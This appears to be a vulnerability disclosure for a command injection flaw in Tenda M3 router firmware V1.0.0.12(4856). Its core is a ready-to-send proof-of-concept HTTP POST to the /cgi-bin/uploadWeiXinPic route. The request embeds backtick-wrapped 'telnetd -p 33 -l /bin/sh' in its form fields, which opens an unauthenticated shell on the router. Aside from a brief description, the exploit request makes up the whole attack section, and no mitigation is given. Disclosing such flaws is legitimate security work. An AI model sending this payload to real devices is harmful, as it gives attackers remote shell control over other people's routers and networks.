





# Tenda M3 Command Injection

**Vender** ：Tenda

**Firmware version**:V1.0.0.12(4856)

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/


## POC

An issue was discovered in Tenda M3 1.10 V1.0.0.12(4856) devices. An HTTP request parameter is used in command string construction within the handler function of the /cgi-bin/uploadWeiXinPic route. This could lead to Command Injection via Shell Metacharacters.










When we send packets, the router will be shell


```
POST /cgi-bin/uploadWeiXinPic HTTP/1.1
Host: 192.168.10.1
Referer: http://192.168.10.1/login.html
Cookie: bLanguage=cn; user=admin; workMode=slave
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 334

-----------------------------11

`telnetd -p 33 -l /bin/sh`aa-------


-----------------------------11
22----

#_logoo --------------------------11
33----

-----------------------------11
44----

-----------------------------11
55----

`telnetd -p 33 -l /bin/sh`aa--filename

-----------------------------11
77--11
```




